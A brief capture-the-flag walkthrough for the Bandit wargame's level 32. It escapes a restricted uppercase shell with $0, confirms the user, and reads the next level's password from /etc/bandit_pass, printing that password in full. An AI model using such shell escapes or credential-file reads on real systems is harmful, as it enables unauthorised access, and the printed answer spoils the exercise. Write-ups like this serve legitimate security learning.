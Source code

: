 # Bandit 32 Solution

### Steps

1. **Break out of the Uppercase Shell**
   - Reference to normal shell with `$0`
     ```bash
     WELCOME TO THE UPPERCASE SHELL
     >> $0
     ```

2. **Get current profile**
   - Find current profile with `whoami`
     ```bash
     $ whoami
     bandit33
     ```

3. **Retrieve the password**
   - Find current password for bandit33 in `/etc/bandit_pass`
     ```bash
     $ cat /etc/bandit_pass/bandit33
     odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
     ```